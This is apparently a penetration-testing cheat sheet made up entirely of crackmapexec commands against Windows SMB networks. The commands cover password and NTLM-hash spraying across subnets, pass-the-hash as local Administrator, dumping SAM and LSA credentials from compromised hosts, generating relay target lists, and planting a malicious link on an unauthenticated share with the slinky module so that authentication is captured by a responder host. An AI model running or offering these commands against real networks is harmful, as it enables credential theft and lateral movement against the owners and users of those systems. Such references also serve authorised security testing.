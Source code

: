 ```yaml
---
category: Uncategorized
tags: []
---
```

Spray the network using SMB with domain credentials:
~~~bash
crackmapexec smb 10.0.0.0/24 -u username -d domain -p Password
~~~

Spray the network using SMB with a local user and NTLM hash:
~~~bash
crackmapexec smb 10.0.0.0/24 -u username -H hash --local-auth
~~~

Use the Slinky SMB module to set up a malicious link on an unauthenticated share:
~~~bash
crackmapexec smb <target ip> -u Guest -p “” -M slinky -o server=responder_ip name=some_unique_name
~~~

Generate a SMB target list:
~~~bash
crackmapexec smb <CIDR> --gen-relay-list targets.txt
~~~

Spray a target list with a local admin's hashed NTLM credentials:
~~~bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth
~~~

Spray a target list with a local admin's hashed NTLM credentials and dump SAM (LOCAL) on any target that the user has Admin access to:
~~~bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --sam
~~~

Spray a target list with a local admin's hashed NTLM credentials and dump LSA (Domain/Cached) on any target that the user has Admin access to:
~~~bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --lsa
~~~

Generate a Relay list based upon prior scan results and tee the command output to a new file:
~~~bash
crackmapexec smb ../scans/nmap-grep-[date]/smb-hosts.txt --gen-relay-list cme_relay.txt | tee cme.out
~~~